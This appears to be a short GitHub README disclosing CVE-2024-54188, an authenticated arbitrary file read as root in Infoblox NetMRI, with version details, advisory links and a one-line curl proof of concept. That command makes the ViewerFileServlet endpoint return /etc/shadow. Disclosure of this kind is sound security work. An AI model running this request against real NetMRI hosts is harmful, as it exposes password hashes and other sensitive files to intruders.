

# CVE-2024-54188: Infoblox NetMRI Authenticated Arbitrary File Read as Root

## Information
**Description:** This exploits an authenticated file read vulnerability to extract sensitive files as root.  
**Versions Affected:** 7.5.4.104695  
**Version Fixed:** 7.6.1  
**Researcher:** Dave Yesland (https://x.com/daveysec)  
**Disclosure Link:** https://rhinosecuritylabs.com/research/infoblox-multiple-cves/  
**NIST CVE Link:** https://nvd.nist.gov/vuln/detail/CVE-2024-54188  
**Vendor Advisory:** https://support.infoblox.com/s/article/Infoblox-NetMRI-is-vulnerable-to-CVE-2024-54188

## Proof-of-Concept Exploit
### Description
This exploit targets the ViewerFileServlet endpoint to read any file by supplying an arbitrary path.

### Usage/Exploitation
```
curl -k --cookie 'Skipjack=<COOKIE>' 'https://<NETMRI_HOST>/visual/ViewerFileServlet?fileName=/etc/shadow'
```

### Screenshot

